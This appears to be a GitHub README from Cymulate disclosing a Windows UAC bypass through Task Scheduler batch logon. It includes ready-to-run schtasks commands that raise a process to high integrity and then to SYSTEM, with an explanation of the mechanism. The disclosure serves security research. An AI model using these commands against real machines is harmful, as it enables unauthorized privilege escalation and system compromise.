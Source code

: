 # Task Scheduler UAC Bypass
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>
A UAC Bypass vulnerability has been found in Microsoft Windows, enabling attackers to bypass the User Account Control prompt, allowing them to execute high-privilege (SYSTEM) commands without user approval. By exploiting this weakness, attackers can elevate their privileges and run malicious payloads with Administrators’ rights, leading to unauthorized access, data theft, or further system compromise. 

It occurs when an attacker creates a task using Batch Logon and not with an Interactive Token. The Task Scheduler service, impersonating the user, is granting the running process the maximum allowed rights, elevating it from any integrity to the highest available. 

Notice that it elevates to the highest privileges not only for Administrators users but also for Backup Operators (allowing to get SeBackup privileges) and for Performance Log Users (Read more in the Cymulate blog).
<br>
<br>

#### Requirements
<br>

- Batch Logon rights for the task principal user (impersonated user)<br>
- Credentials of the task principal
<br>

#### Command
<br>

```bash
# Elevate to High Integrity
schtasks /create /tn poc /tr command.exe /sc minute /mo 1 /ru <username> /rp <password> /f
schtasks /run /tn poc

# Elevate to SYSTEM
schtasks /create /tn tmp /sc minute /mo 1 /ru <username> /rp <password> /tr "schtasks /create /tn poc /tr command.exe /sc minute /mo 1 /RL HIGHEST"
schtasks /run /tn tmp
schtasks /delete /tn tmp /f
```
<br>

#### Explanations
<br>

The taskhostw.exe process, hosted by svchost.exe, is running as SYSTEM. When the service is impersonating the user, a high Integrity context is initiated for the task to run.
The difference between a password registration (Batch Logon), and a default  registration (InteractiveToken) is the authentication method, as mentioned in MSDN. It will determine the integrity of the process to run. 

Along the same lines, after elevating from a medium to a high integrity, it is not enough for our task to run as SYSTEM. Impersonating an admin user with batch logon doesn’t guarantee the ability to run as SYSTEM since it wasn’t intended to run elevated. If we add to our method the /RL HIGHEST flag, we get Access Denied. 

But to remediate it, we can elevate our privileges to high with the previously mentioned UAC bypass by creating a temporary task, which then creates our SYSTEM main task from inside (see before, Elevate to SYSTEM).

<br>

#### Notes
<br>
This code is for educational and research purposes only.<br>
The author takes no responsibility for any misuse of this code.
